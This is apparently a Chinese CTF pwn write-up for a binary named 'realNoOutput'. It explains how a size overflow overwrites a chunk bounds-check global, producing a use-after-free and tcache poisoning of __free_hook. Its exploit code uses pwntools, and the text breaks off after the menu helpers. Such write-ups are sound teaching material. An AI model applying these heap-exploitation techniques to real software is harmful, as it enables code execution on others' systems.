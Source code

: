 这一句很有意思，但是对于这个指针位置的修改方法，被反编译了，使用keypatch还不能得到很好的patch效果，可能是哪里做错了。
![在这里插入图片描述](img/410046493da9582dc2b6d8e67190cfec.png)
只能使用动态调试了，在gdb中，动态查看PIE下地址的值方式是

```
x $rebase(addr) 
```

多次查看可以看出，这里检查的就是我们edit,show等的chunk是不是大于等于第一个chunk的地址，这也就避免了一些越界修改。
但是结合上面size的溢出，很容易想到就可以把这里qword_3560改成chunk8的size,从而绕过这个检验。因此不会更新ptr, **在edit中的ptr就是原先在栈帧中保存的ptr**,这样就造成了一次use-after-free，劫持tcache即可，如下图

```
 add(1,0x68,'aaaa')
add(2,0x68,'bbbb')
add(3,0x10,'/bin/sh\x00')
add(8,0x10,'aaaa')

delete(1)
edit(2,'aaaa')
delete(2)
edit(0,p64(free_hook)) 
```

完整exp

```
from pwn import *
io=process('./realNoOutput')
context.log_level='debug'
elf=ELF('./realNoOutput')
libc=elf.libc

def add(index,size,content):
    io.sendline(str(1))
    sleep(0.1)
    io.sendline(str(index))
    sleep(0.1)
    io.sendline(str(size))
    sleep(0.1)
    io.send(content)

def edit(index,content):
    io.sendline(str(3))
    io.sendline(str(index))
    io.sendline(content)

def show(index):
    io.sendline(str(4))
    io.sendline(str(index))

def delete(index):
    io.sendline(str(2))
    io.sendline(str(index))
```